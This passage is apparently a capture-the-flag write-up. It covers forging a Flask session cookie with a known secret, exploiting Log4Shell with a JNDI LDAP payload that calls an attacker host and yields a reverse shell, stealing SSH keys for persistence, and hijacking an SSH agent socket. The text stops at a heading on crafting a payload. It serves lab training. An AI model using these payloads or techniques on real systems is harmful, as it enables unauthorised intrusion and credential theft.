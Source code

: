 ### 2.05_anvilnotes_source
![](bilder/9.png)
The user oper looks interesting so we create a cookie for that account
```
flask-unsign --sign --cookie "{'username': 'oper'}" --secret 'This is an UNSECURE Secret. CHANGE THIS for production environments.'
```
![](bilder/10.png)
Here we find the backup source code which has been presumably used for hacking this server.
The flag is inside the notes and the files gzip file has been base64 encoded.
```bash
echo "<base64>" | base64 --decode > source
zcat source > source.tar
```
### 2.06_pwr-ws-caf5db
To gain access to the machine we're supose to recreate the attack that was performed on pwr-ws-caf5db, which was a log4js vulnerability.
I ran <a href="https://github.com/black9/Log4shell_JNDIExploit">this</a> exploit.

```bash
java -jar JNDIExploit-1.2.jar -i AttackerIP
curl VictimIP/Domain -H 'User-Agent: ${jndi:ldap://AttackerIP:LDAP_PORT/Basic/Command/Base64/[base64_encoded_cmd]}
```
With this I was able to gain a reverse shell and gain access to the server, we can then take their ssh key to gain access whenever we want.

### 2.07 shady-aggregator
When running ```ps -aux```, we can see a interesting connection from user archive from shady-aggregator.
![](bilder/ps.png)
We can check for the ssh-agent in the /tmp folder and try to see if we can find the agent socket.
![](bilder/agent.png)
We can then try to impersonate this user and connect back to their server without having to do any verification at all.
![](bilder/archive.png)
The flag is found in the user's home.
### 2.08_client_list
Also seen in the proccesses is the ```java -jar .client```, which mean that this client has been compromised and is a part of the botnet operated by shady-aggregator.
When investigating the client file we can see that we can run ```java -jar --get-config``` and we will get some useful information about how we can contact the operator of the botnet. We also have the server file so we can simply check their list.
![](bilder/list.png)

### 2.09 cloud-hq
This part is was a exploit hidden in plain site. This part can be divided in two parts:
1. Find a way for the client to execute code.
2. Find a way for to deliver the payload to the server. 
#### Crafting the payload
